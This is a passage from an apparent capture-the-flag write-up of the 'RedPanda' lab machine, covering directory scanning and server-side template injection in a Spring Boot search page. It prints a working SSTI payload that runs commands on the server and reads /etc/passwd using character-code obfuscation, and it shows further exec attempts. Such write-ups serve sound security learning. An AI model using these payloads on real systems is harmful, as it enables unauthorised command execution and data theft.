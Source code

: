 ```
SF:>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like something is being hosted on `8080`. We'll load up `Burpsuite` and see what it is.

![](/images/redpanda/panda1.png)

Just a page with a search function. We'll toss a `gobuster` at it to start.

Command:
`gobuster dir -u http://10.10.11.170:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Right off the bat we see two hits `/search` and `/stats`. When we visit the `stats` page we get an option to see stats on an author.

![](/images/redpanda/panda2.png)

Each has a link to an image and the option to export the table via `export.xml`. This is something we might be able to abuse. We also look for `XSS` in the search function but nothing basi really pops out. One thing we do notice is that in the request, we see `Red Panda Search | Made with Spring Boot` as the title tag. A quick Google shows that this is a `Java` based template framework. There were also some other exploits listed but need to test out what we might be working with in the search field. A great place to start is [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Server%20Side%20Template%20Injection/#summary).

![](/images/redpanda/panda3.png)

Now, we see that `#` and `~` do not work with the `{7*7}` tester - but `*` and `@` does. Now from that same page, we see what `*{T(java.lang.System).getenv()}` returns.

![](/images/redpanda/panda4.png)

Well, that works, let's ratchet it up a bit and try to cat `/etc/passwd`. We try with the first sugestion, nothing. Howver the second query works:
 ```
 *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
 ```

Now we need to take this base query and weaponize it. The first thing to try is to slim this down to just the `.exec()` function: `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec()`. Now we'll simply try to get the command to do a simple `ls`.

Command:
`*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("ls")}` 

Nothing. More searching around lead me [here](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md). This has a bit different method of calling the `Java` methods. 

